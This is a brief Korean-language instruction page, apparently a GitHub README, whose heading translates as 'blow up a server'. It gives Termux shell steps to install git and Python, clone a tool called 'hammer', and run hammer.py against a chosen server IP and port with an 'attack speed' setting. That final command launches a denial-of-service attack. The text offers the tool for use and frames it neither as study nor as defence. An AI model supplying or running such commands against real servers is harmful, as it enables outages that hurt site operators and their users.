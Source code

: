 # Termux
서버 터트리기
$ apt update && apt upgrade 
$ y
$ pkg install git 
$ pkg install python
$ git clone https://github.com/cyweb/hammer.git
$ ls 
$ cd hammer 
$ ls
$ chmod +× hammer.py
$ python3 hammer.py -s(ServerIP) -p(server Port -t (Attack Speed)
$ 
